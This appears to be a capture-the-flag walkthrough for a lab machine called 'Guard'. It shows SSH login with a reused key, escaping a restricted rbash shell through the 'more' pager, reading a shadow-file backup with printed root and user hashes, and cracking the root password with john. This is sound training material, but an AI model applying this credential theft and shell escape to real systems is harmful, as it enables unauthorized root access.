


# Starting Point - Guard

## Enumeration

```
rustscan 10.10.10.50 -- -sC -sV -o port_scans

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkcOfIguCL3HiluPAL9xLs0SKg0qvvnkO6iBLb/l9rmrN2ECvvce+E8S2gyZdm4pcgOBWfCYrwVPLxvc8nvpPZPSZ1LGfW5eoGwHdklIGAMgD0QtcphvoUuYowb+ZKNoXgq3Cj3EBP49HYHuHdYTQrWkzIJxKcOKQhX6Z4ayJxVL4jwUMKSVmn9kil5LvB4rrQNA4nnhF5F2LgCLBc/3clgwf+gPep6OLq0xuIf5S0bUTKZ/1Okg6dOxcIc2P3SRYxYyhfr8lP8g4/fid2seamTv9rmE3ilQq0iBj4fnVlY5jzI5m6EOGwdM84OiXsJZmHEPDwDcqmaMhYec1U953R
|   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMX3kqpY2ndXnsNY12RKRvy9tI69L4rrhFk1vims0B37Ju5YZ4Q5N+RV/ts7rvuKwUueCeH0AWEmE9oV3TsSG3k=
|   256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ9AJZ5v4FPferUM/c7u+T8W9N8zrGAjanwazh65aZnP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apparently, only the SSH port is open. As we have no other information given and previous machines have shown, that information from other machines must be re-used, we can try to connect as daniel (as we have his private ssh key).

And it works! We are user `daniel`

```
daniel@guard:~$ id
uid=1000(daniel) gid=1000(picasso) groups=1000(picasso),27(sudo)
```

## Exploitation

Having access to Daniel's home directory, we can directly read the user flag. But hmmm ... somehow `cat` does not give any output. It seems like we have some restrictions. However, `more` works perfectly fine. User flag: `209333652507f89d0d3a41ff4070c081`


Let's look for some privilege escalation!

We start by searching for files with SUID bit set:

```
daniel@guard:~$ find / -perm -u=s -type f 2>/dev/null
-rbash: /dev/null: restricted: cannot redirect output
```

Weird! Something strange is happening with our shell. Let's investigate that.

Looking at the `/etc/passwd` file, we can see that our current user has `rbash` as default shell.

```
daniel:x:1000:1000:picasso:/home/picasso:/bin/rbash
```

As I've personally never heard of it, I must first understand what this is and do some research.

```
RBASH(1)                                                                     General Commands Manual                                                                     RBASH(1)

NAME
       rbash - restricted bash, see bash(1)

RESTRICTED SHELL
       If  bash  is  started  with the name rbash, or the -r option is supplied at invocation, the shell becomes restricted.  A restricted shell is used to set up an environment
       more controlled than the standard shell.  It behaves identically to bash with the exception that the following are disallowed or not performed:

       ·      changing directories with cd

       ·      setting or unsetting the values of SHELL, PATH, ENV, or BASH_ENV

       ·      specifying command names containing /

       ·      specifying a filename containing a / as an argument to the .  builtin command

       ·      specifying a filename containing a slash as an argument to the -p option to the hash builtin command

       ·      importing function definitions from the shell environment at startup

       ·      parsing the value of SHELLOPTS from the shell environment at startup

       ·      redirecting output using the >, >|, <>, >&, &>, and >> redirection operators

       ·      using the exec builtin command to replace the shell with another command

       ·      adding or deleting builtin commands with the -f and -d options to the enable builtin command

       ·      using the enable builtin command to enable disabled shell builtins

       ·      specifying the -p option to the command builtin command

       ·      turning off restricted mode with set +r or set +o restricted.

       These restrictions are enforced after any startup files are read.

       When a command that is found to be a shell script is executed, rbash turns off any restrictions in the shell spawned to execute the script
```

Apparently, that is some kind of restricted shell, that's highly limiting our functionalities. 

However, it does not prevent us from spawning a bash shell from within another program. I first tried it from within vim/vi, but it's disabled. Then I remembered a cool trick from the [OverTheWire Bandit](https://overthewire.org/wargames/bandit/) Wargame. If you manage to make your terminal as small as possible and open anything with `more`, then you get following:



From here, you can execute commands as such:



And now we've escaped the rbash environment!

```
daniel@guard:~$ cd ..
daniel@guard:/home$ pwd
/home
daniel@guard:/home$ 
```

(The official writeup does it with the `man man` trick and spawns the bash from within there)

Enumerating the system, I found some interesting backups in the `/backups` directory, namely a backup of the shadow file, for which we have read permissions.

```
root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::
```

Let's copy it to our local machine and let `john` try to crack the passwords for daniel, or in the best case for root. If we get the password for daniel, then we can atleast check if he is on the sudoers list and can execute some helpful commands that we can exploit to gain root privileges.

But it's better than we thought. John is successful in cracking the root password!

```
$ john shadow -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status

password#1       (root)
```

Now we can log in as root and obtain the root flag.

Root flag: `386ca63de3e5fd7df6b6212a0430f681`